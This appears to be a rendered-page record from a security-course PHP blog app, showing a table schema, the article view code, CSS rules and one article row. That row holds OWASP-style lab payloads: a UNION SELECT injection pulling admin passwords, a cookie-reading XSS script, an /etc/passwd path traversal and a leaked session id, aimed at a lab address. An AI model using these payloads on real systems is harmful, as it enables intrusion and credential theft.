
Page /www-solution/index.php?id=2 (signed in) on the committed database.
### tables this page shows
CREATE TABLE `articles` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `title` varchar(512) NOT NULL,
  `content` text NOT NULL,
  `date` timestamp NOT NULL DEFAULT CURRENT_TIMESTAMP ON UPDATE CURRENT_TIMESTAMP,
  `author` int(11) NOT NULL,
  `status` int(11) NOT NULL DEFAULT '1',
  PRIMARY KEY (`id`)
);

### www-solution/content/home.php (the view)
<?php
include_once(__DIR__.DIRECTORY_SEPARATOR.'../include/db.php');
?>
<?php
function replace_n($str){
$order   = array('\n');
$replace = '<br>';
return $newstr = str_replace($order, $replace, $str);
}
function replace_br($str){
$order   = array("<br>");
$replace = '\n';
return $newstr = str_replace($order, $replace, $str);
}
if(@$_GET['id']<=0) {
    $articles = $db->query("SELECT * FROM articles WHERE status=1 ORDER BY id DESC");
    while ($article = $articles->fetch_array(MYSQL_ASSOC)) {
        echo '<article class="box post post-excerpt">
        <header>
            <h2><a href="./index.php?id='.$article['id'].'">' . $article['title'] . '</a></h2>
        </header>
        <div class="info">
            <span class="date"><span class="month">' . date("M", strtotime($article['date'])) . '</span> <span class="day">' . date("d", strtotime($article['date'])) . '</span><span class="year">, ' . date("y", strtotime($article['date'])) . '</span></span>
        </div>
        <a href="#" class="image featured"><img src="images/pic01.jpg" alt="" /></a>';
        $replaced_placeholder = replace_br($article['content']);
        $new = htmlspecialchars($replaced_placeholder,ENT_QUOTES);
	$replaced_n = replace_n($new);
        echo $replaced_n;
     echo '</article>';
    }
}else{
    $articles = $db->query("SELECT * FROM articles WHERE id='".$db->real_escape_string($_GET['id'])."'");
    $article = $articles->fetch_array(MYSQL_ASSOC);
        echo '<article class="box post post-excerpt">
        <header>
            <h2><a href="#">' . $article['title'] . '</a></h2>
        </header>
        <div class="info">
            <span class="date"><span class="month">' . date("M", strtotime($article['date'])) . '</span> <span class="day">' . date("d", strtotime($article['date'])) . '</span><span class="year">, ' . date("y", strtotime($article['date'])) . '</span></span>
        </div>
        <a href="#" class="image featured"><img src="images/pic01.jpg" alt="" /></a>';
        $replaced_placeholder = replace_br($article['content']);
        $new = htmlspecialchars($replaced_placeholder,ENT_QUOTES);
        $replaced_n = replace_n($new);
        echo $replaced_n;
   echo  '</article>';
}
?>

### www-solution/css/style.css (style rules this page uses)
body { background-color: #e8e8e8; background-image: url('images/bg02.png'); }
body,input,textarea,select { font-family: 'Source Sans Pro', sans-serif; font-weight: 400; color: #565656; }
a { color: #c94663; }
h2,h3,h4,h5,h6 { font-family: 'Open Sans Condensed', sans-serif; font-weight: 700; color: #232323; }
h2 a, h4 a, h5 a, h6 a { text-decoration: none; color: inherit; }
header { margin: 0 0 2em 0; }
section, article { margin-bottom: 3em; }
section > :last-child, article > :last-child { margin-bottom: 0; }
section:last-child, article:last-child { margin-bottom: 0; }
.image { display: inline-block; }
.image img { display: block; width: 100%; }
.image.featured { display: block; width: 100%; margin: 0 0 2em 0; }
.box.post { position: relative; }

### www-solution/css/style-desktop.css (style rules this page uses)
body { height: 100%; }
body,input,textarea,select { line-height: 1.75em; }
h2 { font-size: 1.2em; }

### www-solution/css/style-narrow.css (style rules this page uses)
body { min-width: 1000px; }
body,input,textarea,select { font-size: 11pt; }
.box.post h2 { font-size: 3.25em; line-height: 1.25em; }
.box.post header { padding: 1.5em 0 0 0; margin: 0 0 3em 0; }
.box.post .info { width: 100%; padding: 1em 0 0 0; position: relative; top: -2em; }
.box.post .info .date { display: inline; }

### rows in the picture
articles: title "Second article", date "Apr", date "06", date "15", content "<br> A1 - Injection: Search - %\" UNION SELECT ALL 1,concat(password,char(58)),3,4,5,6 from admins where name='student'-- (bacha na posledný znak, musí byť whitespace) <br> A2-Broken Authentication and Session Management GET /?page=logout.php&session_id=5tk8tsccght7gvt9jgh6nj9336&go_page=index.php (sessionid disclosure) <br> A3 - XSS - Search - <script>alert(document.cookie)</script> <br> A4 - Insecure Direct Object References - koment v indexe - http://192.168.56.102/preview.php?file=../../../../etc/passwd (LFI) <br> A5 - Security Misconfiguration - Search - \" <br> A6 - Sensitive Data Exposure - GET /?page=logout.php&session_id=5tk8tsccght7gvt9jgh6nj9336&go_page=index.php (SSL) <br> A7 -…"
